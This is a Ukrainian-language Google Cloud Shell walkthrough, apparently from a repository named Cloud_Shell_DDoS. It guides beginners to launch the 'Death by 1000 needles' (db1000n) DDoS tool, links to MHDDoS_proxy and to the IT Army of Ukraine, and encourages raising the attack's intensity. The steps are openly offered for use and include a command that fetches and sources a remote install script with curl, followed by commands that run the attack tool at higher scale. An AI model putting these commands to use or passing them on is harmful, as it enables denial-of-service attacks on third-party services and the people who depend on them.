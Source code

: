 
#   Все буде Україна! 💙💛

## Бажаю вам гарного дня!

### Запуск «Death by 1000 needles» (db1000n)

- для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі
- це означає що все створене під час цього сеансу видалиться разом з віртуальною машиною  **після закінчення даного сеансу**

###  Зверніть увагу   
- якщо з'єднання перервано, бажано  **перезавантажитись** натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

Щоб перейти до запуску **db1000n** натисніть кнопку **START**

 ## Давайте почнемо
-  для запуска «Death by 1000 needles» (db1000n) скопіюйте команду розташовану нижче та натисніть клавішу **ENTER**
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```

-   якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього *зупиніть* процес натиснувши **Ctrl+C** та запустіть наступну команду
```bash
./db1000n --scale 0.7
```
-   або наступну команду з ще більшою потужністю
```bash
./db1000n
```
### 
Щоб переглянути навантаження на процесор використаємо команду **htop**
-   для цього додайте ще один термінал натиснувши 
<walkthrough-open-cloud-shell-button open-cloud-shell><walkthrough-open-cloud-shell-button open-cloud-shell/>

    та виконайте наступну команду
```bash
htop
```

## Пропоную для ознайомлення:

* натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=mhddos_proxy_tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

* інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
* офіційна сторінка   [⚡ IT Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
